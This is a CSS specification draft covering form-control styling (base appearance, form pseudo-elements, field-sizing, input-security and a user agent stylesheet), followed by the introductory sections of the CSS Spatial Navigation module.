User agents have long provided non-standard ways of styling form controls. However, all of these controls are implemented inconsistently across user agents, creating unnecessary friction for authors.

This module aims to define a set of form control parts in enough detail that they can be used interoperably.

It also defines some new ways of customizing form controls, covering common use cases that were previously only possible by implementing custom controls from scratch, which was a lot of work, hard to get right, and often broke either accessibility or platform conventions.

### 2. Opting Into Basic Appearance: the `appearance: base` value {#css-forms-1:appearance}

> **Issue:** Move definition of `appearance` here.

| Field | Value |
| --- | --- |
| Name: | `appearance` |
| [New values:](#css-values-4:value-defs) | base |

When applied on a form control, **base** puts that control in the **basic appearance** state.

A control that has basic appearance is consistently styleable using standard CSS and the pseudo-elements defined below, and applies overridable default styles that are consistent across UAs. When a control is in that state, the user agent applies styles from the [Appendix A: Basic Appearance User Agent Stylesheet](#css-forms-1:basic-appearance-stylesheet) to that control.

The user agent must also enable the pseudo-elements defined by [§ 4 Pseudo-Elements](#css-forms-1:pseudo-elements). These pseudo-elements (excluding `::picker()`) always inherit `appearance` from their originating element. The user agent may implement this using an `appearance: inherit !important` declaration.

> **Note:** The inheritance prevents authors from mixing native and non-native parts for the same control.

#### 2.1. Design Principles for the Basic Appearance {#css-forms-1:basic-appearance-principles}

The following design principles apply to the design of the basic appearance stylesheet for form controls, in approximate order of descending importance:

1. The styles are identical in every user agent.
2. The controls are recognizable and usable on their own without additional styles.
3. The controls target accessiblity out of the box, ideally passing [WCAG 2.2 AA standards](https://www.w3.org/TR/WCAG22/).

> **Note:** Authors may need to do extra adjustments to ensure their controls are accessible depending on any customizations as well as the context the form control is placed into. The basic appearance does not prevent adjustments by the author that are inaccessible.

1. The styles are consistent across controls…

  1. …in look & feel.
  2. …in how they are defined in code.
  3. …in sizing and interaction.
2. The styles are easily adapted to the website’s branding, without needing complex reset stylesheets:

  1. They use minimal code and are easy to override.
  2. They do not have a strong voice & tone of their own, and are visually as simple as possible.
  3. They inherit page styles rather than define new styles whenever possible.
  4. They are resilient to adjustments…

    1. …when changed themselves (e.g. changing font, border, layout).
    2. …when put in context (e.g. ready to be flex or grid children).
3. They are comprehensive:

  1. Covering all states for each control.
  2. Supporting all writing modes and color schemes.

For HTML form controls specifically, these principles are applied through the required user agent stylesheet defined in [Appendix A: Basic Appearance User Agent Stylesheet](#css-forms-1:basic-appearance-stylesheet).

#### 2.2. Examples {#css-forms-1:ex-appearance}

> **Issue:** Refine these examples through implementation, experimentation, bikeshedding and improvements to the user agent stylesheet.

The main purpose of these examples is to show how the design principles for the basic appearance apply in practice.

To apply the basic appearance on individual controls, the following code is used:

```css
input, textarea, meter, progress, button, select, fieldset, legend {
  appearance: base;
}
```

> **Note:** The form layout used by the following examples is not detailed.

##### 2.2.1. Default User Agent Colors {#css-forms-1:colors}

Here are the basic appearance colors inheriting respectively the default light and dark mode colors from the root element:

 

##### 2.2.2. Color/Font Customization {#css-forms-1:custom}

Here are some examples of customization being done on top of the basic appearance:

> **Example:** ```css
> form {
>   font-family: "American Typewriter";
>   background-color: rgb(254, 252, 221);
>   color: rgb(131, 17, 0);
> }
>
> input, textarea, meter, progress, button, select, fieldset, legend {
>   appearance: base;
> }
> ```
>
> 

> **Example:** ```css
> form {
>   font-family: "Courier New";
>   font-size: 14px;
>   background-color: rgb(0, 0, 0);
>   color: rgb(0, 249, 0);
> }
>
> input, textarea, meter, progress, button, select, fieldset, legend {
>   appearance: base;
> }
> ```
>
> 

### 3. Styling Pickers {#css-forms-1:pickers}

#### 3.1. The `::picker()` pseudo-element {#css-forms-1:picker-pseudo}

The **::picker()** pseudo-element represents the part of the form control that pops out of the page.

```css
::picker() = ::picker( <form-control-identifier>+ )
<form-control-identifier> = select
```

The `::picker()` pseudo-element only matches when the originating element supports basic appearance and has a popup picker. The specified `<form-control-identifier>` must also match the **unique picker name** of the originating element. For example, the unique picker name for the `select` element is `select`.

In order for the `::picker()` pseudo-element to be rendered, it and its originating element must both have a computed `appearance` of `base`.

> **Example:** The following styles apply the basic appearance to the select picker and the select and add some additional styling to the picker:
>
> ```css
> select, select::picker(select) {
>   appearance: base;
> }
> select::picker(select) {
>   border: 5px solid red;
>   background-color: blue;
> }
> ```

> **Note:** The non-functional form of `::picker()` currently doesn’t work to prevent unintended styling of pickers as new pickers become supported. Once styling for all form control pickers is finalized, this non-functional form will work for all pickers.

### 4. Pseudo-Elements {#css-forms-1:pseudo-elements}

Form controls are composed of many parts that authors may want to style separately, hence the need for user agents to provide pseudo-elements for individual form controls.

The section below introduces a set of pseudo-elements that attempts to cover the most common use cases, so they can be addressed in a consistent manner across user agents.

| Control | Pseudo-elements |
| --- | --- |
| `<progress>` | ├─ ''::slider-track'' │ └─ ''::slider-fill'' └─ ''::slider-thumb'' |
| `<meter>` |  |
| `<input type=checkbox switch>` |  |
| `<input type=range>` |  |
| `<input type=checkbox>` | `::checkmark` |
| `<input type=radio>` |  |
| `<input type=file>` | `::file-selector-button` |
| `<input type=date>` | ├─ ''::field-content'' │ ├─ ''::field-component'' │ └─ ''::field-separator'' └─ ''::picker-icon'' See [§ 4.8 Styling Parts for Date/Time Input Fields: the ::field-component and ::field-separator pseudo-elements](#css-forms-1:date-time-pseudos) |
| `<input type=datetime-local>` |  |
| `<input type=time>` |  |
| `<input type=month>` |  |
| `<input type=week>` |  |
| `<input>` (with no type) | See [§ 4.5 Styling Parts for Text Fields: the ::placeholder, ::field-content, ::reveal-icon, and ::clear-icon pseudo-elements](#css-forms-1:field-pseudos) |
| `<input type=text>` |  |
| `<input type=search>` |  |
| `<input type=email>` |  |
| `<input type=password>` |  |
| `<input type=tel>` |  |
| `<input type=url>` |  |
| `<input type=number>` | See [§ 4.7 Styling Parts for Number Fields: the ::step-control, ::step-up and ::step-down pseudo-elements](#css-forms-1:number-pseudos) |
| `<input type=color>` | `::color-swatch` |
| `<textarea>` | See [§ 4.6 Styling Parts for textareas: the ::placeholder and ::field-content pseudo-elements](#css-forms-1:textarea-pseudos) |
| `<select>` | `::picker-icon` |
| `<option>` | `::checkmark` |
| `<fieldset>` and `<legend>` |  |
| Buttons |  |

> **Issue:** Add illustrations.

#### 4.1. Picker Opener Icon: the `::picker-icon` pseudo-element {#css-forms-1:picker-icon}

The **::picker-icon** pseudo-element represents the part of the control that represents the icon denoting the presence of the picker. It is only generated when the originating element has basic appearance and if it opens a picker. It is a fully styleable pseudo-element and inherits from its originating element.

`::picker-icon` generates a box as if it was an child of its originating element, after any boxes generated by the `::after` pseudo-element, with content as specified by `content`.

#### 4.2. File Selector Button: the `::file-selector-button` pseudo-element {#css-forms-1:file-selector-button-pseudo}

The **::file-selector-button** pseudo-element represents the button used to open a file picker, if the UA renders such a button.

It typically targets the `button` inside an `input` element with `type=file`.

> **Example:** For example, the following example should show a green border around the file selector button:
>
> ```css
> ::file-selector-button { border: 3px solid green }
> ```

#### 4.3. Styling Checkmarks: the `::checkmark` pseudo-element {#css-forms-1:checkmark}

The **::checkmark** pseudo-element represents an indicator of whether the item is checked, and is present on checkboxes, radios, and option elements.

It is only generated when the originating element supports the `:checked` pseudo-class, and either has basic appearance or an ancestor with basic appearance. It is a fully styleable pseudo-element and inherits from its originating element.

For checkboxes and radio elements, it generates a box as if it was an child of its originating element, between the boxes generated by the `::before` and `::after` pseudo-element, with content as specified by `content`.

For option elements, it generates a box as if it was an child of its originating element, preceding any boxes generated by the `::before` pseudo-element, with content as specified by `content`.

> **Example:** The following example changes the background image of a checkmark:
>
> ```css
> ::checkmark { background-image: url(...) }
> ```
>
> It may also be used in combination with `:indeterminate` to style the indeterminate checkmark:
>
> ```css
> :indeterminate::checkmark { background-image: url(...) }
> ```

#### 4.4. Styling Parts of Slider-Like Controls: the `::slider-thumb`, `::slider-track` and `::slider-fill` pseudo-elements {#css-forms-1:slider-pseudos}

**Slider-like controls** are form controls that represent progress. That progress may be adjustable by the user.

The following pseudo-elements are provided to style their different parts:

****::slider-thumb****

: The `::slider-thumb` pseudo-element represents the portion that allows the user to adjust the progress of the control.

  > **Note:** It is typically natively rendered as a circle in most user agents.

****::slider-track****

: The `::slider-track` pseudo-element represents the portion containing both the progressed and unprogressed portions of the control.

****::slider-fill****

: The `::slider-fill` pseudo-element represents the portion containing the progressed portion of the control.

  When the progress of control is indeterminate (like with `<progress>`), the user agent must give this portion an inline-size of zero.

These pseudo-elements are fully styleable pseudo-elements and their structure is the following:

```
<input type="range">
├─ ::slider-track
│  └─ ::slider-fill
└─ ::slider-thumb
```

The list of slider-like controls depends on the host language. For HTML, this corresponds to:

- `progress`
- `meter`
- `input` elements with `type="range"`
- `input` elements with `type="checkbox" switch`

#### 4.5. Styling Parts for Text Fields: the `::placeholder`, `::field-content`, `::reveal-icon`, and `::clear-icon` pseudo-elements {#css-forms-1:field-pseudos}

****::placeholder****

: The `::placeholder` pseudo-element represents the portion of the `input` that contains the placeholder text.

****::field-content****

: The `::field-content` pseudo-element represents the portion of the `input` that contains the editable text.

****::reveal-icon****

: The `::reveal-icon` pseudo-element represents the portion of the `input` that allows the user to temporarily disable obscuring of sensitive text input when clicked if provided by the user agent.

  User agents providing `::reveal-icon` may choose to remove it in some circumstances to help protect sensitive text input from being revealed unintentionally.

  > **Note:** Example mitigations to avoid unintentionally revealing sensitive text input:
  >
  > - If focus moves away from the field, remove the `::reveal-icon`.
  > - If script modifies field content, remove the `::reveal-icon`.
  > - If the `::reveal-icon` is removed due to either of the above, the user must delete the contents of the field to make the `::reveal-icon` appear again. This behavior prevents someone from making a minor change to field content to expose the `::reveal-icon` on an unattended device.
  > - If the field is filled by a user agent autofill feature, remove the `::reveal-icon`.

****::clear-icon****

: The `::clear-icon` pseudo-element represents the portion of the `input` that allows the user to clear the `input` when clicked if provided by the user agent.

  With `appearance: textfield`, the user agent must not generate this part.

`::field-content`, `::reveal-icon`, and `::clear-icon` must be siblings.

> **Issue:** Collect parts used by autofill.

> **Issue:** Define how `::placeholder` interacts with `::field-content`. [[Issue #11844]](https://github.com/w3c/csswg-drafts/issues/11844)

#### 4.6. Styling Parts for textareas: the `::placeholder` and `::field-content` pseudo-elements {#css-forms-1:textarea-pseudos}

**`::placeholder`**

: The `::placeholder` pseudo-element represents the portion of the `textarea` that contains the placeholder text.

**`::field-content`**

: The `::field-content` pseudo-element represents the portion of the `textarea` that contains the editable text.

> **Issue:** Define something for the resizer. [[Issue #11850]](https://github.com/w3c/csswg-drafts/issues/11850)

> **Issue:** Define how `::placeholder` interacts with `::field-content`. [[Issue #11844]](https://github.com/w3c/csswg-drafts/issues/11844)

#### 4.7. Styling Parts for Number Fields: the `::step-control`, `::step-up` and `::step-down` pseudo-elements {#css-forms-1:number-pseudos}

These pseudo-elements are provided for number inputs. They are fully styleable pseudo-elements.

****::step-control****

: The `::step-control` pseudo-element represents the portion of a number input that contains the up and down buttons.

****::step-up****

: The `::step-up` pseudo-element represents the button that increments the value inside a number input when activated.

****::step-down****

: The `::step-down` pseudo-element represents the button that decrements the value inside a number input when activated.

Their structure is defined as follows:

```
<input type="number">
├─ ::field-content
└─ ::step-control
   ├─ ::step-up
   └─ ::step-down
```

> **Example:** The following control:
>
> ```
> <input type="number">
> ```
>
> can be re-styled like this:
>
> `[ + 2 - ]`
>
> > **Issue:** Insert real image.
>
> using the following styles:
>
> ```css
> input[type=number] {
>   appearance: base;
>   &::step-control {
>     display: contents;
>   }
>   &::step-up {
>     order: 1;
>     content: "+";
>   }
>   &::field-content {
>     order: 2;
>   }
>   &::step-down {
>     order: 3;
>     content: "-";
>   }
> }
> ```

With `appearance: textfield`, the user agent must not generate this part.

#### 4.8. Styling Parts for Date/Time Input Fields: the `::field-component` and `::field-separator` pseudo-elements {#css-forms-1:date-time-pseudos}

****::field-component****

: The `::field-component` pseudo-element represents the portions of the control that contain the date/time component values.

****::field-separator****

: The `::field-separator` pseudo-element represents the portions of the control that separate the date/time component values if the user agent provides those portions.

Those pseudo-elements are siblings. The exact structure of the control is determined by internationalization and by the host language, but must be consistent across user-agents. `::field-component` and `::field-separator` pseudo-elements are all contained within a `::field-content` pseudo-element.

> **Example:** The following control:
>
> ```
> <input type="date">
> ```
>
> may render like this in US locales:
>
> [ 08 / 22 / 2024 [v]]
>
> > **Issue:** Insert real image.
>
> The resulting tree is:
>
> ```
> <input type="date">
>   ├─ ::field-content
>   │  ├─ ::field-component (08)
>   │  ├─ ::field-separator (/)
>   │  ├─ ::field-component (22)
>   │  ├─ ::field-separator (/)
>   │  └─ ::field-component (2024)
>   └─ ::picker-icon
> ```

#### 4.9. Color Swatch: the `::color-swatch` pseudo-element {#css-forms-1:color-swatch-pseudo}

The **::color-swatch** pseudo-element represents the portion of the control that displays the chosen color value.

> **Example:** For example, the following example should make the input and its color swatch rounded:
>
> ```css
> input[type=color], ::color-swatch { border-radius: 100%; }
> ```

#### 4.10. Compatibility With Vendor Pseudo-Element Extensions {#css-forms-1:vendor-pseudo-element-compatibility}

When possible, the user agent should use aliasing to implement any non-standard pseudo-elements.

When not possible, the user agent must reserve the standard pseudo-elements for `appearance: base` and use any non-standard ones for `appearance: none`.

### 5. Pseudo-Classes {#css-forms-1:pseudo-classes}

#### 5.1. Targeting Different Meter States: the `:low-value` / `:high-value` / `:optimal-value` pseudo-classes {#css-forms-1:meter-values}

> **Issue:** Make sure this is able to replicate UA logic. [[Issue #11336]](https://github.com/w3c/csswg-drafts/issues/11336)

> **Issue:** Link these to the HTML definitions.

The **:low-value** pseudo-class matches on a `meter` element when its value is under the value specified by the `low` HTML attribute.

The **:high-value** pseudo-class matches on a `meter` element when its value is over the value specified by the `high` HTML attribute.

The **:optimal-value** pseudo-class matches on a `meter` element when its value is in the range determined by the `optimum` / `low` / `high` HTML attributes.

#### 5.2. Targeting Selects that are Listboxes {#css-forms-1:selects-listboxes}

> **Issue:** Define something. [[Issue #7422]](https://github.com/w3c/csswg-drafts/issues/7422)

### 6. The `control-value()` function {#css-forms-1:control-value}

> **Issue:** This is not ready for implementation, file an issue regarding this.

> **Issue:** Consider privacy implications, regarding data exfiltration. [[Issue #11860]](https://github.com/w3c/csswg-drafts/issues/11860)

> **Issue:** Consider adding more types. [[Issue #11842]](https://github.com/w3c/csswg-drafts/issues/11842)

The **control-value()** function computes to the current value of the form control it is on. If it is used on an element that is not a form control, it returns an empty string.

```css
<control-value()> = control-value( <type>? )

<type> = '<' [ number | string ] '>'
```

If used on a pseudo-element, it is evaluated against its originating element.

> **Example:** For example, to show on the value of a range input next to it:
>
> ```css
> input[type=range]::after {
>   content: control-value();
> }
> ```

### 7. Styling Widgets {#css-forms-1:styling-widgets}

#### 7.1. Switching form control sizing: the `field-sizing` property {#css-forms-1:field-sizing}

| Field | Value |
| --- | --- |
| Name: | **field-sizing** |
| [Value:](#css-values-4:value-defs) | fixed \| content |
| [Initial:](#css-cascade-6:initial-values) | `fixed` |
| [Applies to:](#css-cascade-5:applies-to) | elements with default preferred size |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

For the purpose of this specification, an **element with default preferred size** is an element whose intrinsic size is fixed regardless of the size of its content. The host language defines which elements are applicable to it. For example, in HTML `textarea` is an element with default preferred size.

****fixed****

: For element with default preferred size, the UA must set the intrinsic size to the default preferred size defined by the host language for that element. Otherwise, the UA must behave the same as `content`.

****content****

: The UA must determine the element’s intrinsic size based on its content, and must ignore any default preferred size defined by the host language for that element. If the element is an element with default preferred size and is listed in [compressible replaced elements](#css-sizing-3:min-content-zero), the UA must stop treating the element as a replaced element for min-content contribution.

> **Example:** For instance, `textarea` has a fixed size regardless of its content by default:
>
> ⎸ The quick brown fox jumps over the lazy dog.
>
> If `field-sizing: content` is applied, the size of the former should fit to a text caret. ⎸
>
> If `field-sizing: content` is applied and its width property has a fixed value like `width: 10em`, the element height depends on the number of the content lines:
>
> The quick brown fox jumps over the lazy dog.⎸

#### 7.2. Fieldset layout {#css-forms-1:fieldset-layout}

> **Issue:** Move to HTML.

When a fieldset is in base appearance mode the layout and rendering behaviour as [defined](https://html.spec.whatwg.org/multipage/#the-fieldset-and-legend-elements:the-fieldset-element-2) in the HTML specification, do not apply to the fieldset or its legend.

#### 7.3. Changing the Orientation of a Slider-Like Control: `slider-orientation` {#css-forms-1:slider-orientation}

> **Issue:** Rework this property.

| Field | Value |
| --- | --- |
| Name: | **slider-orientation** |
| [Value:](#css-values-4:value-defs) | auto \| left-to-right \| right-to-left \| top-to-bottom \| bottom-to-top |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****auto****

: The slider-like control orientation is defined by the writing mode and direction.

****left-to-right****

: The slider-like control is rendered horizontally and `::slider-fill` is left-aligned within the control.

****right-to-left****

: The slider-like control is rendered horizontally and `::slider-fill` is right-aligned within the control.

****top-to-bottom****

: The slider-like control is rendered vertically and `::slider-fill` is top-aligned within the control.

****bottom-to-top****

: The slider-like control is rendered vertically and `::slider-fill` is bottom-aligned within the control.

#### 7.4. Obscuring sensitive input: the `input-security` property {#css-forms-1:input-security}

> **Issue:** The CSSWG has agreed that while we believe that providing this piece of functionality to users is important, doing it via CSS+JS is the wrong approach, and that instead it should be built into user agents: this needs to work consistently from site to site for it to be discoverable and understandable by users, this needs to work even when JS is turned off, and this needs to have consistently solid accessibility… We therefore intend to remove this from the specification, and instead, we would like to see this behavior specified in the HTML specification as part of the interaction model of password fields. Holding off deleting until the situation with HTML is clarified. See [https://github.com/w3c/csswg-drafts/issues/6788](https://github.com/w3c/csswg-drafts/issues/6788) and [https://github.com/whatwg/html/issues/7293](https://github.com/whatwg/html/issues/7293).

| Field | Value |
| --- | --- |
| Name: | **input-security** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | `auto` |
| [Applies to:](#css-cascade-5:applies-to) | sensitive text inputs |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

For the purpose of this specification, a **sensitive text input** is a text input whose purpose is to accept sensitive input, as defined by the host language. For example, in HTML `<input type=password>` is a sensitive text input.

By default, user agents obscure the contents of sensitive text inputs in order to prevent onlookers from seeing it. Users may wish to temporarily disable this obscuring in order to confirm that they’ve typed their sensitive information correctly. The `input-security` property may be used by authors to enable or disable this obscuring.

****none****

: The UA must not obscure the text in the control, so that it can be read by the user.

****auto****

: The UA should obscure the text in the control, so that it cannot be read by the user.

While the exact mechanism by which user agents obscure the text in the control is undefined, user agents typically obscure sensitive text inputs by replacing each character with some suitable replacement such as U+002A ASTERISK (*) or U+25CF BLACK CIRCLE (●).

> **Example:** For instance, given this style sheet
>
> ```
> input[type=password] {
>   input-security: auto;
> }
> ```
>
> and this HTML
>
> ```
> <input type=password value=MySecret794>
> ```
>
> a user agent might render the `<input type=password>` like so: ●●●●●●●●●●●

### Appendix A: Basic Appearance User Agent Stylesheet {#css-forms-1:basic-appearance-stylesheet}

> **Issue:** Move to HTML.

> **Issue:** This section needs refining with implementation.

#### Basics {#css-forms-1:stylesheet-basics}

```css
input,
textarea,
button,
::file-selector-button,
::color-swatch,
meter,
progress,
fieldset,
legend {
    color: inherit;
    font: inherit;
    box-sizing: border-box;
    background-color: transparent;
}

::checkmark,
::picker-icon,
::slider-track,
::slider-fill,
::slider-thumb,
::reveal-icon,
::clear-icon,
::field-content,
::field-component,
::field-separator,
::step-control,
::step-up,
::step-down,
::placeholder {
    box-sizing: border-box;
}
```

#### Layout {#css-forms-1:stylesheet-layout}

```css
input:not([type=file], [type=range], [type=checkbox][switch]),
textarea,
button,
::file-selector-button,
::slider-track {
  border: 1px solid currentColor;
  background-color: light-dark(transparent, alpha(from white / 4%));
}

fieldset {
  border: 1px solid currentColor;
}

input {
  align-content: unsafe center;
  align-items: unsafe center;
}
```

#### Sliders {#css-forms-1:stylesheet-sliders}

> **Issue:** Refine meter, progress, switch and range input styling. [[Issue #12267]](https://github.com/w3c/csswg-drafts/issues/12267)

```css
input[type="checkbox"][switch],
input[type="range"] {
  display: inline-flex;
  position: relative;
  align-items: center;
  inline-size: 100%;
}

input[type="checkbox"][switch]::slider-track,
input[type="range"]::slider-track,
meter::slider-track,
progress::slider-track {
  block-size: 1em;
  inline-size: 100%;
}

input[type=range]::slider-track {
  block-size: 0.5em;
}

input[type=checkbox][switch]::slider-track {
  border-radius: 1em;
}

input[type="checkbox"][switch]::slider-fill,
input[type="range"]::slider-fill,
meter::slider-fill,
progress::slider-fill {
  block-size: 100%;
  background-color: currentColor;
}

progress:indeterminate::slider-fill {
  inline-size: 0;
}

input[type="range"]::slider-fill,
input[type=checkbox][switch]::slider-fill {
  background-color: color-mix(currentColor 25%, transparent);
  border-radius: inherit;

  block-size: 100%;
}

input[type=checkbox][switch]::slider-fill {
  inline-size: 0%;
}

input[type="checkbox"][switch]:checked::slider-fill {
  inline-size: 100%;
}

input[type="checkbox"][switch]::slider-thumb,
input[type="range"]::slider-thumb {
  border-radius: 0;
  border: none;
  background-color: currentColor;
  appearance: none;
  inline-size: 1em;
  block-size: 1em;
  border-radius: 100%;
  position: absolute;
}

input[type=checkbox][switch]:checked::slider-thumb {
  inset-inline-end: 0;
}
```

#### Checkboxes & radios {#css-forms-1:stylesheet-checkbox-radio}

```css
input[type=checkbox]:not([switch]),
input[type=radio] {
    /* These size rules ensure accessibility by following WCAG rules:
     * https://www.w3.org/WAI/WCAG22/Understanding/target-size-minimum.html */
    block-size: 1em;
    inline-size: 1em;
    font-size: max(1em, 24px);

    display: inline-flex;
    align-items: center;
    justify-content: center;
}

input[type=checkbox]:not([switch])::checkmark {
    content: '\2713' / '';
}

input[type=radio]::checkmark {
    content: '';
}

input[type=checkbox]:not([switch], :checked, :indeterminate)::checkmark {
input[type=radio]:not(:checked)::checkmark {
    visibility: hidden;
}

input[type=checkbox]:indeterminate::checkmark {
    content: '\2500' / '';
}

input[type=radio] {
    border-radius: 50%;
}

input[type=radio]:checked::checkmark {
    background-color: currentColor;
    display: inline-block;
    border-radius: inherit;
    height: 100%;
    width: 100%;
}
```

#### Buttons (and button-like controls) {#css-forms-1:stylesheet-button}

```css
button,
::file-selector-button,
input:is([type="color"], [type="button"], [type="reset"], [type="submit"]) {
  border: 1px solid currentColor;
  background-color: transparent;
  color: inherit;
  /* Padding prevents the text from sticking to the borders.
   * optically centered to account for half leading */
  padding-block: 0.25em;
  padding-inline: 0.5em;

  border-radius: 4px;

  /* These min-size rules ensure accessibility by following WCAG rules:
   * https://www.w3.org/WAI/WCAG22/Understanding/target-size-minimum.html
   * The 1lh is there to make sure that options without text don't change
   * the block size of the button. */
  min-block-size: calc-size(auto, max(size, 24px, 1lh));
  min-inline-size: calc-size(auto, max(size, 24px));

  /* Push picker icon to the right of the box and have some space
   * in between it and the text. */
  display: inline-flex;
  gap: 0.5em;

  user-select: none;

  text-transform: initial;
  text-align: initial;
  text-indent: initial;
}

button:enabled:hover,
input:is([type="color"], [type="button"], [type="reset"], [type="submit"]):enabled:hover,
input[type="file"]:enabled::file-selector-button:hover {
  background-color: color-mix(currentColor 10%, transparent);
}

button:enabled:active,
input:is([type="color"], [type="button"], [type="reset"], [type="submit"]):enabled:active,
input[type="file"]:enabled::file-selector-button:active {
  background-color: color-mix(currentColor 20%, transparent);
}

button:disabled,
input:is([type="color"], [type="button"], [type="reset"], [type="submit"]):disabled,
input[type="file"]:disabled::file-selector-button {
  color: color-mix(currentColor 50%, transparent);
}
```

#### Color Input {#css-forms-1:stylesheet-color}

```css
input[type="color"] {
  padding: 0;
  overflow: clip;
}

::color-swatch {
  inline-size: stretch;
  block-size: stretch;

  /* These prevent forced dark mode or forced colors mode from changing the background. */
  color-scheme: light only;
  forced-color-adjust: none;

  /* Uses a linear gradient to handle showing the alpha channel of chosen color */
  background: linear-gradient(control-value()), linear-gradient(to bottom right, black 50%, white 50%);
}
```

#### Selects {#css-forms-1:stylesheet-select}

See base appearance user agent styles specified in [HTML](https://html.spec.whatwg.org/multipage/rendering.html#the-select-element-2).

##### Text inputs {#css-forms-1:stylesheet-text-inputs}

```css
textarea,
input {
  border-radius: 4px;
}
```

The above must apply to textareas and textual inputs only.

```css
input::field-content {
  display: flow !important;
}

input::field-component,
input::field-separator {
  position: static !important;
}
```

---

## CSS Spatial Navigation Module Level 1 {#css-spatial-nav-1}

- **Shortname:** `css-spatial-nav-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-spatial-nav-1/](https://drafts.csswg.org/css-spatial-nav-1/)
- **Published TR:** [https://www.w3.org/TR/css-nav-1/](https://www.w3.org/TR/css-nav-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-05-14

This specification is rather long. To make it easier to read and focus on a particular area, a few checkboxes are provided below. Checking them hides part of the specification. This is only meant as a reading aid, the specification remains the full document.

Hide JavaScript APIs, including events    Hide CSS properties that enable selecting behavior variants, and related information    Hide informative sections that explain and summarize normative sections without adding more information

### 1.  Introduction {#css-spatial-nav-1:intro}

*This section is not normative.*

Historically, most browsers have not offered features to let the user move the focus directionally. Some, such as TV browsers, have enabled the user to move the focus using the arrow keys out of necessity, since no other input mechanism is available on a typical TV remote control.

Others have enabled different key combinations to control spatial navigation, such as pressing the `Shift` key together with arrow keys.

This ability to move around the page directionally is called **spatial navigation**.

Spatial navigation can be useful for a web page built using a grid-like layout, or other predominantly non linear layouts. The figure below represents a photo gallery arranged in a grid layout. If the user presses the `Tab` key to move focus around the images, they need to press the key many times to reach the desired image element.


Photo gallery application example using a grid layout

Also, spatial navigation moves the focus to the predictable element for users because it moves the focus among focusable elements depending on their position. Sometimes elements on the page aren’t arranged independently of their source order. Therefore unlike spatial navigation, sequential navigation using the `Tab` key makes focus navigation unpredictable.

While arrow keys are naturally suited to control spatial navigation, no previous specification describes how that should work, or how it may be controlled. This specification introduces a processing model for spatial navigation, as well as APIs enabling the author to control and override how spatial navigation works.

> **Note:** Some aspects of this specification, such as the JavaScript Events and APIs could also be extended to sequential navigation, in order to make sure that keyboard navigation has a consistent and well defined model in general.

> **Note:** As a general principle, keyboard navigation, and spatial navigation in particular, should be possible to use and control without JavaScript, and declarative solutions are therefore preferred. Since spatial navigation depends on layout, that means CSS is typically the right mechanism to define spatial navigation related controls. However, in the spirit of the [Extensible Web Manifesto](https://github.com/extensibleweb/manifesto) [EXTENSIBLE], we feel it is important to provide the right JavaScript primitives to let the author experiment and explore the problem space. More declarative features may be added later, based on feedback and experience acquired through such JavaScript usage.

> **Note:** A few features are marked **at-risk**. The editors of this specification believe they represent an important part of the user or author experience of the features defined in the specification. At the same time, the core functionality of this specification can be implemented without implementing these so it seems possible that implementers may choose to down-prioritize them to reduce the scope of the first implementation. While it is hoped that these features will be implemented as well, they are marked at-risk in recognition that they might not be at first.

### 2.  Module interaction {#css-spatial-nav-1:interaction}

This document depends on the Infra Standard [infra].

The keywords "MUST", "MUST NOT", "REQUIRED", "SHALL", "SHALL NOT", "SHOULD", "SHOULD NOT", "RECOMMENDED", "NOT RECOMMENDED", "MAY", and "OPTIONAL" are to be interpreted as described in RFC 2119. [RFC2119]

#### 2.1.  CSS Property Value Definitions {#css-spatial-nav-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 3.  Overview {#css-spatial-nav-1:overview}

*This section is not normative.*

Using a UA-defined mechanism (typically arrow keys, possibly in combination with modifier keys like `Shift` or `Control`), the user may ask the user agent to navigate in a particular direction. This will either move the focus from its current location to a new focusable item in the direction requested, or scroll if there is no appropriate item.

More specifically, the user agent will first search for visible and focusable items in the direction indicated within the current spatial navigation container (by default, the root element, scrollable elements, and iframes, but other elements can be made into spatial navigation containers using the `spatial-navigation-contain` property).

If it finds any, it will pick the best one for that direction, and move the focus there.

If it does not, it will scroll the spatial navigation container in the requested direction instead of moving focus. Doing so may uncover focusable elements which would then be eligible targets to move the focus to next time spatial navigation in the same direction is requested.

If the spatial navigation container cannot be scrolled, either because it is not a scrollable element or because it is already scrolled to the maximum in that direction, the user agent will select the next spatial navigation container up the ancestry chain, and recursively repeat the above process until it finds some element to focus or scroll, or reaches the root element.

> **Note:** As a consequence of this processing model, the elements that are reachable by sequential navigation and by spatial navigation are almost the same. Elements that are currently outside of the viewport of a scrollable element can only be reached by spatial navigation once they have been scrolled into view. Therefore, elements that cannot be scrolled into view by default.

At key points during this search for the appropriate response to the spatial navigation request, the user agent will fire events. These enable the author to prevent the upcoming action (by calling `preventDefault()`), and if desired to provide an alternate action, such as using the `focus()` method on a different element of the author’s choosing.

To help the author write such alternate actions, and as part of exposing underlying platform primitives as per the [Extensible Web](https://github.com/extensibleweb/manifesto) principles, this specification also defines JavaScript APIs that expose key constructs of the underlying model.

